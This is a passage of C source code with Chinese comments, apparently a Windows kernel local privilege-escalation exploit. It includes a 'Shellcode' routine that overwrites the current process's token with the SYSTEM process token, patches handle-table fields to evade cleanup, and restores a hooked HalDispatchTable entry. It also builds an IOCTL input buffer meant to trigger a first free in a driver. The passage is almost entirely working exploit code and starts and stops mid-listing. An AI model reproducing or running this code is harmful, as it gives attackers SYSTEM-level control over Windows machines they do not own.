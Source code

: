 ```
    {
        printf("Get HalDispatchTable Failed %p\n", GetLastError());
        return 0;
    }
 
    MyPsLookupProcessByProcessId = (ULONG)GetProcAddress(Mynt, "PsLookupProcessByProcessId") - (ULONG)Mynt + Ntbase;
    if (MyPsLookupProcessByProcessId == NULL)
    {
        printf("Get PsLookupProcessByProcessId  Failed %p\n", GetLastError());
        return 0;
    }
 
    return 1;
}
 
 
NTSTATUS __stdcall Shellcode(int a,int b,int c,int d)
{
    //获取自己和系统进程的EPROCESS
    PEPROCESS pCur, pSys;
    DWORD ObjTable;
    MyPsLookupProcessByProcessId(GetCurrentProcessId(), &pCur);
    MyPsLookupProcessByProcessId(4, &pSys);
 
    //提权 0xF8为token位置
    *(DWORD*)(pCur + 0xF8) = *(DWORD*)(pSys + 0xF8);
 
    //绕过清理句柄
    ObjTable = *(DWORD*)(pCur + 0xF4);
    *(DWORD*)(ObjTable + 0x30) -= 1;
    ObjTable = *(DWORD*)ObjTable;
    *(DWORD*)(ObjTable + ((DWORD)hWorkerFactory * 2)) = 0;
 
    //恢复Hook
    *(DWORD*)(MyHalDispatchTable + 4) = oldHaliQuerySystemInformation;
 
    return 0;
}
 
int main(int argc, char** argv)
{
    //获取需要的所有地址
    if (!GetFuncAddr())
    {
        printf("GetFuncAddr Failed \n");
        return 0;
    }
 
    DWORD mdlSize = 0xA0;
    DWORD virtualAddress = 0x710DDDD;
    //MDL的大小 头部加物理页编号 如果你的地址或长度低12不为0  则多申请一个页
    //这里明显地址低12位不为0  所以-1 正好0xA0的大小
    DWORD length = ((mdlSize - 0x1C) / 4 - (virtualAddress % 4 ? 1 : 0)) * 0x1000;
 
 
    //这里初始化第一次IO控制的inputbuf  以达到第一次释放的目标
    static BYTE inbuf1[0x30];
    memset(inbuf1, 0, sizeof(inbuf1));
    *(ULONG*)(inbuf1 + 0x18) = virtualAddress;
    *(ULONG*)(inbuf1 + 0x1C) = length;
    *(ULONG*)(inbuf1 + 0x28) = 1;
 
```